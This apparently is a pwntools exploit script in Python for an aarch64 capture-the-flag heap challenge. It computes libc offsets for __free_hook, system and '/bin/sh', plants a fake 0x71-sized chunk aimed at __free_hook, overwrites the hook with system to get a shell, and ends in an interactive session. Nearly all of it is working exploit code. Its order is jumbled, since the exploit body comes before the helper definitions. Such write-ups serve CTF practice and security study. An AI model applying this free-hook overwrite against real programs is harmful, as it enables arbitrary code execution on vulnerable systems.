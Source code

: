 ```python

    slog['blibc'] = blibc

    hfree  = blibc + 0x156630 
    system = blibc + 0x3f2c8
    binsh  = blibc + 0x128720
    slog['hfree']  = hfree
    slog['system'] = system 
    slog['binsh']  = binsh 

    fakechunk = flat(0, 0, 0, 0x71, hfree)
    sl(fakechunk)
    sl('a')
    sl(p64(system))


context.os='linux'

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

slog = {'name' : 111}
local = int(sys.argv[1])

context.arch='aarch64'

if local:
    cn = process(['qemu-aarch64', '-g', '1234', './bin'])
    # cn = process(['./ld', './bin'], env={"LD_PRELOAD":"./libc"})
else:
    cn = process(['qemu-aarch64', './bin'])

re  = lambda m, t : cn.recv(numb=m, timeout=t)
recv= lambda      : cn.recv()
ru  = lambda x    : cn.recvuntil(x)
rl  = lambda      : cn.recvline()
sd  = lambda x    : cn.send(x)
sl  = lambda x    : cn.sendline(x)
ia  = lambda      : cn.interactive()
sla = lambda a, b : cn.sendlineafter(a, b)
sa  = lambda a, b : cn.sendafter(a, b)
sll = lambda x    : cn.sendlineafter(':', x)
# after a, send b;

def slog_show():
    for i in slog:
        success(i + ' ==> ' + hex(slog[i]))

exp()

slog_show()

ia()


```
:::

